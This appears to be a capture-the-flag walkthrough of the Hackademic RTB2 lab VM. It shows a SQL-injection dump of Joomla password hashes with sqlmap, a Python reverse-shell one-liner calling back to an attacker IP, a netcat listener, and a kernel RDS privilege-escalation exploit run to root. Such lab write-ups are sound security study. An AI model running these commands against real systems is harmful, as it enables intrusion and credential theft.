

# Hackademic: RTB2 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/hackademic-rtb2,18/](https://www.vulnhub.com/entry/hackademic-rtb2,18/)

> This is the second realistic hackademic challenge (root this box) by mr.pr0n
>
> Download the target and get root.
>
> After all, try to read the contents of the file 'key.txt' in the root directory.
>
> Enjoy!
>
> Source: [https://ghostinthelab.wordpress.com/2011/09/06/hackademic-rtb2-%E2%80%93-root-this-box/](https://ghostinthelab.wordpress.com/2011/09/06/hackademic-rtb2-%E2%80%93-root-this-box/)

---

# Stage 1: Reconnaissance

Tools used:
* nmap

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00010s latency).
Not shown: 998 closed ports
PORT    STATE    SERVICE VERSION
80/tcp  open     http    Apache httpd 2.2.14 ((Ubuntu))
666/tcp filtered doom
MAC Address: 08:00:27:44:1D:5C (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Another fairly simple server, just like . Browsing the website on firefox reveals a simple page:


---

# Stage 2: Enumeration

Tools used:
* nikto
* curl

```
root@kali:~# nikto -host http://192.168.1.100/Hackademic_RTB1
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache/2.2.14 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.3.2-1ubuntu4.7
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Apache/2.2.14 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 413560, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8497 requests: 0 error(s) and 18 item(s) reported on remote host

+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

`nikto` tells us a few facts:
* There is a `phpmyadmin` installation on the server
* The server is running `Ubuntu`
* A bunch of false positives that is to be expected

Aside from the main page, anything I tried on the login doesn't seem to work. Feeling desperate, I tried a full port scan on all 65536 ports. Still the same 2 ports showed up. However, when I tried using curl on port 666, it gave me a webpage! What is this? Running another nmap scan on that port revealed another Apache instance! Is this a case of port knocking? I believe that a full range port scan disabled the port knock, thereby opening up port 666 to the web.


Looks like a Joomla installation. With that, let us move on to Stage 3.

---

# Stage 3: Exploitation

Tools used:
* joomscan
* sqlmap
* netcat

Much like `wpscan` is for Wordpress installations, Joomla comes with its own scanner: `joomscan`. Let us see its output:

```
root@kali:~# joomscan -u 192.168.100.7:666


 ..|''||   '|| '||'  '|'     |      .|'''.|  '||''|.  
.|'    ||   '|. '|.  .'     |||     ||..  '   ||   || 
||      ||   ||  ||  |     |  ||     ''|||.   ||...|' 
'|.     ||    ||| |||     .''''|.  .     '||  ||      
 ''|...|'      |   |     .|.  .||. |'....|'  .||.     
    
 
=================================================================
OWASP Joomla! Vulnerability Scanner v0.0.4  
(c) Aung Khant, aungkhant]at[yehg.net
YGN Ethical Hacker Group, Myanmar, http://yehg.net/lab
Update by: Web-Center, http://web-center.si (2011)
=================================================================


Vulnerability Entries: 611
Last update: February 2, 2012

Use "update" option to update the database
Use "check" option to check the scanner update
Use "download" option to download the scanner latest version package
Use svn co to update the scanner and the database
svn co https://joomscan.svn.sourceforge.net/svnroot/joomscan joomscan 


Target: http://192.168.1.100:666

Server: Apache/2.2.14 (Ubuntu)
X-Powered-By: PHP/5.3.2-1ubuntu4.7


## Checking if the target has deployed an Anti-Scanner measure

[!] Scanning Passed ..... OK 


## Detecting Joomla! based Firewall ...

[!] No known firewall detected!


## Fingerprinting in progress ...

~Generic version family ....... [1.5.x]

~1.5.x en-GB.ini revealed [1.5.12 - 1.5.14]

* Deduced version range is : [1.5.12 - 1.5.14]

## Fingerprinting done.


## 3 Components Found in front page  ##

 com_mailto	 com_user	
 com_abc	

Vulnerabilities Discovered
==========================

# 1
Info -> Generic: htaccess.txt has not been renamed. 
Versions Affected: Any
Check: /htaccess.txt
Exploit: Generic defenses implemented in .htaccess are not available, so exploiting is more likely to succeed.
Vulnerable? Yes

// Output truncated

# 14
Info -> Core: Admin Backend Cross Site Request Forgery Vulnerability 
Versions effected: 1.0.13 <=
Check: /administrator/
Exploit: It requires an administrator to be logged in and to be tricked into a specially crafted webpage.
Vulnerable? Yes

// Output truncated

# 19
Info -> CorePlugin: TinyMCE TinyBrowser addon multiple vulnerabilities 
Versions effected: Joomla! 1.5.12 
Check: /plugins/editors/tinymce/jscripts/tiny_mce/plugins/tinybrowser/
Exploit: While Joomla! team announced only File Upload vulnerability, in fact there are many. See: http://www.milw0rm.com/exploits/9296
Vulnerable? Yes

// Output truncated

# 33
Info -> CoreComponent: com_mailto timeout Vulnerability 
Versions effected: 1.5.13 <=
Check: /components/com_mailto/
Exploit: [Requires a valid user account] In com_mailto, it was possible to bypass timeout protection against sending automated emails.
Vulnerable? Yes

// Output truncated

There are 4 vulnerable points in 38 found entries!

~[*] Time Taken: 20 sec
~[*] Send bugs, suggestions, contributions to joomscan@yehg.net
```

There is also `robots.txt`, but its entries all mislead you to dead ends. The most interesting vulnerability is #19, which is a File Upload vulnerability. This means that if we can somehow exploit this, we can get a shell! To make things even better, there is a metasploit module for it! Ahh, whenever I do Boot2Root VMs, it's always a luxury to be able to use available metasploit modules for it. But it seems like I was ahead of myself as when I tried it, it didn't work. Not to be discouraged, I went on to look for the typical point of entries like SQL injection. After some testing, I was able to discern a SQL injection vector with `http://192.168.1.100:666/index.php?Itemid=' + '2` as it gave me the same result as `http://192.168.1.100:666/index.php?Itemid=2`.

Some testing revealed that putting a quote in the letter parameter shows an error (`http://192.168.1.100:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...'&Itemid=3`)



Let's turn to my trusty `sqlmap`:

```
root@kali:~# sqlmap -u "http://192.168.1.100:666/index.php?option=com_abc&letter=A" -D joomla -T jos_users -C username,password --dump
+---------------+-------------------------------------------------------------------+
| username      | password                                                          |
+---------------+-------------------------------------------------------------------+
| Administrator | 08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl |
| JSmith        | 992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF |
| BTallor       | abe1ae513c16f2a021329cc109071705:FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy |
+---------------+-------------------------------------------------------------------+
```

Nice, we successfully dumped the Joomla logins, however the passwords are in the form of md5($pass:$salt), which means we can't easily do a reverse lookup on it. After brainfarting for a while, I came to a sudden realization that there was one old trick that I hadn't tried in a long while: Uploading a reverse OS shell through SQL injection Arbitrary File Write (using INTO OUTFILE or INTO DUMPFILE) and Arbitrary File Read (using LOAD_FILE). `sqlmap` has a useful one-liner with its `--os-shell` parameter:

```
root@kali:~# sqlmap -u "http://192.168.100.7:666/index.php?option=com_abc&letter=A" --os-shell
os-shell> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.101",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Having an os-shell is useful, but I wanted a more reliable shell, hence I used it to open up another reverse shell received using `netcat`.

```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.100] 46230
/bin/sh: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@HackademicRTB2:/var/www$
```

Since the Linux Kernel version is 2.6.32, I wonder if the privilege escalation exploit that I used in Hackademic: RTB1 also works here...

```
www-data@HackademicRTB2:/tmp$ gcc -o 15285 15285.c -pthread
www-data@HackademicRTB2:/tmp$ ./15285 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08cac4c
 [+] Resolved default_security_ops to 0xc0773340
 [+] Resolved cap_ptrace_traceme to 0xc02f5060
 [+] Resolved commit_creds to 0xc016dd80
 [+] Resolved prepare_kernel_cred to 0xc016e0c0
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# whoami
root

# ls /root

Desktop  Key.txt

# cat /root/Key.txt
iVBORw0KGgoAAAANSUhEUgAAAvQAAAFYCAIAAACziP9JAAAACXBIWXMAAAsTAAALEwEAmpwYAAAg
AElEQVR4nOy9eZhdVZXw/bu35iFVlXmgUiQhBAIJEGKMAQGDb1rpbj5EjYK8KIoy+SniIyC2Q4uC
Nn5tOzI4dAvaKI2CLTgEWmYIGTCBQAbIUEkqVZWa5+lO3x/nXefdt4Y71D3DvbfW78nDk1C3zll3
n332XnuNoCiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiK
oiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiK
// Output truncated
```

Yes! With the help of [linuxprivchecker.py](https://github.com/epinna/weevely3/blob/master/modules/audit/_linuxprivchecker/linuxprivchecker.py) and [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester), I am able to ascertain that the same exploit will work, and it got us the key! Now for the final step which is to decode this base64 string, which turns out to be a PNG file:


---

# Lessons Learnt
* Always review your Stage 1 even if you hit a dead end, there may always be a case of port knocking.
* Keep refreshing your fundamentals, because you may never know when you might need it (as in the case of OS shell upload through SQL injection)